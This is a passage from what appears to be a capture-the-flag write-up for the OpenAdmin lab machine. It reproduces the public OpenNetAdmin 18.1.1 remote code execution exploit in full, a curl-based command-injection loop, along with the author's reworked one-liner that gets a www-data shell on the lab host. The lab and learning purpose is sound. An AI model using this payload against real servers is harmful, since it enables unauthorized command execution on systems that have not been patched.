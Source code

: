 Copy the exploit: 
~~~
$ searchsploit -m 47691
~~~

Inspect it: 
~~~
$ cat 47691.sh
~~~

~~~
# Exploit Title: OpenNetAdmin 18.1.1 - Remote Code Execution
# Date: 2019-11-19
# Exploit Author: mattpascoe
# Vendor Homepage: http://opennetadmin.com/
# Software Link: https://github.com/opennetadmin/ona
# Version: v18.1.1
# Tested on: Linux

# Exploit Title: OpenNetAdmin v18.1.1 RCE
# Date: 2019-11-19
# Exploit Author: mattpascoe
# Vendor Homepage: http://opennetadmin.com/
# Software Link: https://github.com/opennetadmin/ona
# Version: v18.1.1
# Tested on: Linux

#!/bin/bash

URL="${1}"
while true;do
 echo -n "$ "; read cmd
 curl --silent -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;echo \"BEGIN\";${cmd};echo \"END\"&xajaxargs[]=ping" "${URL}" | sed -n -e '/BEGIN/,/END/ p' | tail -n +2 | head -n -1
done
~~~

By modifying the URL-part of the exploit and ponting it to the actual IP we can get a shell. Here I ran into some issues with the exploit as it would not run because of end of line characters. After trying a few times I made it into a working oneliner:

~~~
$ while true;do echo -n "$ "; read cmd;curl --silent -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;echo \"BEGIN\";${cmd};echo \"END\"&xajaxargs[]=ping" http://10.10.10.171/ona/ | sed -n -e '/BEGIN/,/END/ p' | tail -n +2 | head -n -1;done
~~~

This exploit gives a partially working shell as user www-data.

![Exploit and id www-data](https://dvardoo.github.io/images/openadmin/id-www.jpg "Exploit and id www-data")
{: .full}

This restricted shell was quite a hassle but I used the following to get an idea of the files: 
~~~
$ ls -laR
~~~
